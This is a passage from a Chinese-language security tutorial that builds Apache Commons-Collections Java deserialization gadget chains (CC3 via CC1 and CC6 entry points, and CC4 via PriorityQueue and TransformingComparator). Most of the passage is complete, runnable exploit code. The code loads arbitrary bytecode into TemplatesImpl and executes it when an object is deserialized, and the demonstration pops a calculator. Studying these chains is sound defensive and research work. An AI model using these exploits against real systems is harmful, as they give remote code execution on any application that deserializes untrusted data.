        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

成功弹出计算器

---

## CC3 链分析

之前我们追的Templatesimpl的链子时追到了`templatesimpl.newTransformer();`

现在我们只需要调用`TemplatesImpl` 类的 `newTransformer()` 方法，便可以进行代码执行

所以我们到`newTransformer`方法下查找用法，继续往下追利用链

---

这里我们找到了要用的`TrAXFilter`，但是这个类是不能序列化的。除非能利用类的构造函数做点事情



但是可以看到下面的构造函数，很巧的是构造函数中调用了`newTransformer`

```
_transformer = (TransformerImpl) templates.newTransformer();
```

所以我们现在只需要执行这个类的构造函数即可触发后面的Templatesimpl链子

**CC3官方链子没有使用`InvokerTransformer`来反射调用构造方法，而是调用了一个新的类 `InstantiateTransformer`。**

`InstantiateTransformer` 这个类是用来初始化 `Transformer` 的



这个类的`transform`方法正好可以调用构造函数初始化`Transformer`

这里我们传入的参数Class类为空，就会抛出异常

Class不为空，则会获取指定参数的构造器并调用构造函数，完美符合我们的需要

---

## CC3 EXP构造

前面的`TemplatesImpl`的利用链不用变

先来看看`InstantiateTransformer`的构造方法，看看要怎么传参

```
    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        super();
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

再对照TrAXFilter类我们调用的构造方法的传参

```
    public TrAXFilter(Templates templates)  throws TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

所以我们这里传入 `new Class[]{Templates.class}` 与 `new Object[]{templates}` 即可

完整的后半部分链子的 EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc6 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());


        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});
        instantiateTransformer.transform(TrAXFilter.class);


    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

成功弹出计算器，然后我们去找入口类的前半部分。而前半部分链子从谁调用了 `transform` 方法开始，所以 CC1 链和 CC6 链的前半部分 EXP 都是有效的。我们直接搬到前面

---

### CC1链->CC3

但是我们这里还是需要引入 `Transformer` 与 `ChainedTransformer` 加以辅助。因为还是CC1的那个问题，`setValue()` 的传参无法控制，如果不用辅助会报错说我们传入 `instantiateTransformer` 是一个字符串而不是一个类

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc6 {
    // CC3 链最终 EXPpublic class CC3FinalEXP
    public static void main(String[] args) throws Exception{


        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);
		
		// 本地测试语句
        //	Field tfactoryField = tc.getDeclaredField("_tfactory");
        //	tfactoryField.setAccessible(true);
        //	tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
        //    templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,decorateMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
        InvocationHandler invocationHandler1 = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,proxyMap);

        serialize(invocationHandler1);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

成功弹出计算器

---

### CC6链->CC3

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc6 {
    // CC3 链最终 EXPpublic class CC3FinalEXP
    public static void main(String[] args) throws Exception{


        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);
		
		// 本地测试语句
        //	Field tfactoryField = tc.getDeclaredField("_tfactory");
        //	tfactoryField.setAccessible(true);
        //	tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
        //  templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<Object,Object>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"aaa");

        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");
        hashMap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryField = LazyMap.class.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(decoratelazyMap,chainedTransformer);

        serialize(expmap);
        unserialize("ser.bin");
    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

---

## 总结



---

# Commons-Collections CC4链

Maven 下载 Commons-Collections 4依赖。

```
<dependency>  
 <groupId>org.apache.commons</groupId>  
 <artifactId>commons-collections4</artifactId>  
 <version>4.0</version>  
</dependency>
```

CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化。

## CC4链分析

由于`InvokerTransformer`用不了了，所以我们需要找还有谁调用了`transform()`方法

我这里是在`ChainedTransformer`类下的transform方法进行查找用法，注意这里导入的库要用commons-collections4



找到`TransformingComparator`类中的`compare()`方法，可以看到这里调用了transform方法，并且compare()方法是常见的方法，很适合我们的反序列化利用，并且这个类也是可以序列化的

继续往下找看看谁调用了`compare()`，这里我们还是要优先找类的readObjec。

找到`PriorityQueue`类，也就是优先队列，这是一个java的内置，并且这个类可以序列化。我们转到它的readObject方法

```
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

注意末尾的`heapify()方法`，我们随着这个方法一路跟进，发现在同一个类中进行的调用，最终找到了`compare()`方法的调用



下面是从readObject开始到compare的完整的链子



---

## CC4链子 EXP编写

根据链子写出初步的EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.channels.Channel;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class cc4 {

    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        serialize(priorityQueue);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

这里的TransformingComparator类和PriorityQueue类的构造方法都是可以直接传参的，所以很方便不需要进行反射调用。

完成初步exp后运行发现没有反应。在PriorityQueue类的readObject方法下调用的heapify()方法下断点调试看看哪里出了问题。



可以看到这里进行了这样一个操作`(size >>> 1) - 1`

```
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

```
value >>> num     --   num 指定要移位值 value 移动的位数
```

这里我们的size原本是0，在右移一位之后依然是0，然后减去1就变成-1，所以无法进入循环。

当我们将 Size 的值修改成 2 的时候，得到 Result 为 1，是可以进入循环的，所以我们需要将 Size 的值变成 2。

Size 就是 PriorityQueue 这个队列的长度，其实就是数组的长度。

所以我们往队列里放东西即可

```
priorityQueue.add(1);  
priorityQueue.add(2);
```

**EXP：**

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.channels.Channel;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class cc4 {

    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        serialize(priorityQueue);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

---

## 修改得到最终EXP

虽然可以成功弹计算器，但是上面的EXP还是会有报错。

因为在priorityQueue.add(1)的时候，内部会自动进行 `compare()` 方法的执行，然后调用transform()

也就是说还没与进行序列化与反序列化，代码就已经执行了

**注意到这里：**

```
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
```

这里的`_tfactory`是我们当时进行本地测试时进行的赋值，这个成员变量的类型是`transit`暂时的，所以是不能序列化保存的。

并且这个变量在反序列化时会自动赋值，所以这一段其实有没有都无所谓。直接去掉

---

然后解决在add的时候就执行代码的问题，我们只需要先让 `transformingComparator` 的值成为一个无关的对象，然后再add之后再用反射修改值即可

先用`new ConstantTransformer<>(1)`代替chainedTransformer即可

最终EXP:

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.channels.Channel;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class cc4 {

    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        //	Field tfactoryField = tc.getDeclaredField("_tfactory");
        //	tfactoryField.setAccessible(true);
        //	tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
        //    templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesimpl});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
		
		// 先随便用个无关的对象替代
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
		
		
		// 反射修改值
        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator,chainedTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

---

## 总结

画个简单的流程图，在PriorityQueue优先队列里的调用我就省略了

